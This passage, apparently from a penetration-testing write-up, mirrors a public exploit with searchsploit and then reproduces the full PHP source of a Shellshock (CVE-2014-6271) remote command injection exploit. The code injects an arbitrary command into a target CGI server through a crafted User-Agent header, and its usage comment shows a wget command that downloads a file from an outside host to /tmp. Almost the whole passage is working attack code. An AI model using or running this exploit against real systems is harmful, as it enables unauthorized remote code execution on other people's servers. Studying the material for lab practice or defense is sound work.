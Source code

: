 We can mirror the exploit code from **Bash - 'Shellshock' Environment Variables Command Injection**:

```bash
searchploit -m linux/remote/34766.php
```

```php
<?php
/*
Title: Bash Specially-crafted Environment Variables Code Injection Vulnerability
CVE: 2014-6271
Vendor Homepage: https://www.gnu.org/software/bash/
Author: Prakhar Prasad && Subho Halder
Author Homepage: https://prakharprasad.com && https://appknox.com
Date: September 25th 2014
Tested on: Mac OS X 10.9.4/10.9.5 with Apache/2.2.26
	   GNU bash, version 3.2.51(1)-release (x86_64-apple-darwin13)
Usage: php bash.php -u http://<hostname>/cgi-bin/<cgi> -c cmd
	   Eg. php bash.php -u http://localhost/cgi-bin/hello -c "wget http://appknox.com -O /tmp/shit"
Reference: https://www.reddit.com/r/netsec/comments/2hbxtc/cve20146271_remote_code_execution_through_bash/

Test CGI Code : #!/bin/bash
				echo "Content-type: text/html"
				echo ""
				echo "Bash-is-Vulnerable"

*/
error_reporting(0);
if(!defined('STDIN')) die("Please run it through command-line!\n");
$x  = getopt("u:c:");
if(!isset($x['u']) || !isset($x['c']))
{
	die("Usage: ".$_SERVER['PHP_SELF']." -u URL -c cmd\n");

}
$url = $x['u'];
$cmd = $x['c'];

$context = stream_context_create(
	array(
		'http' => array(
			'method'  => 'GET',
			'header'  => 'User-Agent: () { :;}; /bin/bash -c "'.$cmd.'"'
		)
	)
);
$req = file_get_contents($url, false, $context);
if(!$req && strpos($http_response_header[0],"500") > 0 )
	die("Command sent to the server!\n");
else if($req && !strpos($http_response_header[0],"500") > 0)
	die("Server didn't respond as it should!\n");
else if(!$req && $http_response_header == NULL)
	die("A connection error occurred!\n")
?>
```
